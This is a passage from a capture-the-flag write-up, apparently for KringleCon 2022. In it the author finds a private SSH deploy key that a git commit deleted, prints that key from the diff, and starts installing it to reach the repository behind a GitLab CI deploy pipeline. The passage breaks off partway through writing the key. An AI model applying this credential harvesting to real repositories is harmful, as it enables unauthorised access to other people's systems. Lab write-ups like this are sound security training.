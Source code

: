 ```bash
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets

commit a7d8f4de0c594a0bbfc963bf64ab8ac8a2f166ca
Author: knee-oh <sporx@kringlecon.com>
Date:   Mon Oct 24 17:32:07 2022 -0700

    init commit
```
Assuming `whoops` either introduces or fixes the issue, I `diff`-ed it with previous and subsequent commits, identifying a private ssh key was removed:
```bash
grinchum-land:~/wordpress.flag.net.internal$ git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5 | cat
diff --git a/.ssh/.deploy b/.ssh/.deploy
deleted file mode 100644
index 3f7a9e3..0000000
--- a/.ssh/.deploy
+++ /dev/null
@@ -1,7 +0,0 @@
------BEGIN OPENSSH PRIVATE KEY-----
-b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
-QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
-9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
-AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
-PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
------END OPENSSH PRIVATE KEY-----
diff --git a/.ssh/.deploy.pub b/.ssh/.deploy.pub
deleted file mode 100644
index 8c0b43c..0000000
--- a/.ssh/.deploy.pub
+++ /dev/null
@@ -1 +0,0 @@
-ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri
sporx@kringlecon.com
```
I tried connecting to the `gitlab.flag.net.internal` and `wordpress.flag.net.internal` host using the obtained credential but that was unsuccessful. I then noticed the file `.gitlab-ci.yml` inside the repository, which provides the commands that are executed on commit:
```bash
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml
stages:
	- deploy

deploy-job:
	stage: deploy
	environment: production
	script:
		- rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```
I tried committing a change to the `index.php` file that ended unsuccessful as I was missing the credentials. Having the private key for user `sprox@kringlecon.com`, I tried re-cloning the repo via SSH using that credential:
```bash
grinchum-land:~$ mkdir ~/.ssh
grinchum-land:~$ echo "-----BEGIN OPENSSH PRIVATE KEY-----" >> ~/.ssh/id_rsa
grinchum-land:~$ echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW" >> ~/.ssh/id_rsa
grinchum-land:~$ echo "QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5" >> ~/.ssh/id_rsa
```